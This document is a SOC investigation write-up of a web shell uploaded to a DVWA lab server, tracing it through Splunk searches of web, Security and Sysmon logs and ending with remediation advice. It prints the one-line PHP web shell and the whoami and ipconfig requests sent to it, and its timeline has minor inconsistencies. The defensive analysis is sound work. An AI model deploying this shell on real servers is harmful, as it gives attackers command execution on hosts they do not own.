





# Investigation – Malicious File Upload / Web Shell 

## 1. Overview

This document records the **SOC investigation** performed after the Splunk alert *"Malicious File Upload - PHP Shell Detected"* triggered. It walks through the analyst's process of confirming the alert, correlating logs across multiple sources (web logs, Windows Security logs, and Sysmon), and establishing the full scope and impact of the incident.

| Item | Value |
|------|-------|
| **Alert Name** | Malicious File Upload - PHP Shell Detected |
| **Trigger Time** | 2026-11-21 19:04:02 EET |
| **Severity** | Critical |
| **Analyst** | sadeg |
| **Affected Host** | `WIN-8R2EDC1A59K$` (Windows Server, running XAMPP/Apache + DVWA) |
| **Malicious File** | `C:\xampp\htdocs\dvwa\hackable\uploads\hackyou.php` |
| **Source IP (Attacker)** | `192.168.30.128` |

---

## 2. Step 1 – Confirm the Triggered Alert

The analyst starts in **Triggered Alerts** to confirm the alert fired and review its metadata.




The alert is legitimate and requires further investigation (**View Results**).

---

## 3. Step 2 – Inspect the Raw Event that Triggered the Alert

Opening the alert's results shows the raw event matched by the underlying search (`index=http sourcetype=dvwa_uploads source="*.php"`).




### Analyst Note

This single line of PHP is a classic **minimal web shell**: it takes whatever value is passed in the `cmd` HTTP GET parameter and executes it directly on the underlying operating system via PHP's `system()` function. This confirms the uploaded file is **not** an image, but a functional backdoor.

---

## 4. Step 3 – Correlate with Windows Security Logs (File Creation)

The analyst pivots to the Windows host's Security event log to confirm the file was actually written to disk and to check for repeated access to it.

**Search used:**
```spl
index=windows sourcetype=WinEventLog:Security EventCode=4663 Object_Name="*hackyou.php"
| table _time Account_Name Object_Name
```



**Result:** 113 events over the investigation window, all referencing:

```
C:\xampp\htdocs\dvwa\hackable\uploads\hackyou.php
```

accessed under the account **`WIN-8R2EDC1A59K$`** (the Apache/XAMPP service account running as the local system).

### Analyst Note

The **high volume of repeated access events** (113 in ~15 minutes) to the same file strongly indicates the web shell is being **repeatedly invoked** — consistent with an attacker sending multiple commands to the shell, not a one-time file read.

---

## 5. Step 4 – Correlate with Sysmon (Process Creation)

To determine **what commands were actually executed** on the host, the analyst queries Sysmon process-creation events (Event ID 1) scoped to the upload directory.

**Search used:**
```spl
index=windows sourcetype=WinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1
CurrentDirectory="C:\\xampp\\htdocs\\dvwa\\hackable\\uploads\\"
| table _time ParentImage Image ParentCommandLine CommandLine User
```




### Analyst Note – Critical Finding

This is the **key piece of evidence** in the investigation: the Apache process (`httpd.exe`) is spawning `cmd.exe`, which in turn spawns `whoami.exe` and `ipconfig.exe`. A web server process **should never spawn a command shell**. This process lineage (`httpd.exe → cmd.exe → whoami.exe / ipconfig.exe`) is the textbook signature of a **web shell executing attacker-supplied commands**, and it confirms the commands were executed with **`NT AUTHORITY\SYSTEM`** privileges — the highest privilege level on Windows.

---

## 6. Step 5 – Correlate with Web Access Logs (Attacker Requests)

The analyst then confirms how the commands were delivered, by searching Apache's combined access log for requests to the malicious file.

**Search used:**
```spl
index=http sourcetype=access_combined uri="*hackyou.php*"
| table _time clientip method uri file useragent
```




### Analyst Note

All requests originate from a single internal IP, **`192.168.30.128`**, using **`curl/8.15.0`** as the user-agent — not a browser. This strongly suggests a scripted/manual attacker tool rather than a regular user, and ties directly back to the Sysmon process-creation evidence in Step 4 (each `GET` request maps 1:1 to a `cmd.exe` execution).


---

## 8. Timeline of Events

| Time (EET) | Event | Source |
|------------|-------|--------|
| 18:50:13 | First `POST` to `/dvwa/vulnerabilities/upload/` | `dvwa_post` |
| 18:50:29 | `GET hackyou.php?cmd=whoami` | `access_combined` |
| 18:50:52 | `GET hackyou.php?cmd=ipconfig` | `access_combined` |
| 19:02:41 | `cmd.exe` → `whoami.exe` executed as **NT AUTHORITY\SYSTEM** | Sysmon EventCode 1 |
| 19:02:53 | `cmd.exe` → `ipconfig.exe` executed as **NT AUTHORITY\SYSTEM** | Sysmon EventCode 1 |
| 19:02:18 – 19:02:53 | 113x repeated file-access events on `hackyou.php` | WinEventLog Security 4663 |
| 19:04:02 | Splunk alert **"Malicious File Upload - PHP Shell Detected"** triggers (Critical) | Triggered Alerts |

---

## 9. Findings Summary

1.  **Confirmed**: Attacker (`192.168.30.128`) exploited the **Unrestricted File Upload** vulnerability in DVWA to upload a PHP web shell (`hackyou.php`).
2.  **Confirmed**: The web shell grants arbitrary **OS command execution** via the `cmd` GET parameter (`<?php system($_GET["cmd"]); ?>`).
3.  **Confirmed**: Commands executed with **`NT AUTHORITY\SYSTEM`** privileges — full compromise of the host.
4.  **Confirmed**: Attacker ran reconnaissance commands (`whoami`, `ipconfig`) to confirm privilege level and map the internal network.
5.  **Confirmed**: Activity is multi-source corroborated — web logs (access/POST), Windows Security (4663), and Sysmon (process creation) all align on the same timeline.
6. ⚠️ **No evidence (in logs reviewed) of**: lateral movement, data exfiltration, or persistence mechanisms beyond the web shell file itself — but this should be verified further.

---

## 10. Recommendations / Remediation

1. **Contain**: Immediately delete/quarantine `C:\xampp\htdocs\dvwa\hackable\uploads\hackyou.php` and block `192.168.30.128` at the network/firewall level.
2. **Eradicate**: Audit the entire `uploads` directory for other dropped files; review Apache process (`httpd.exe`) for any lingering child processes.
3. **Harden**:
   - Enforce file **type/content validation** (not just extension checks) on all upload functionality.
   - Store uploaded files **outside the web root**, or disable script execution in the upload directory (e.g., via `.htaccess` / web server config).
   - Run the web server service with the **least privilege** necessary (it should never run as `NT AUTHORITY\SYSTEM`).
4. **Detect**: Keep the Splunk alert enabled; consider adding a complementary detection for **`httpd.exe` spawning `cmd.exe`** (parent/child process anomaly) as a generic web-shell detection, independent of file name.
5. **Review**: Check authentication logs around `19:01:38` (`login.php`) to confirm whether the attacker used valid/default DVWA credentials or a bypass.

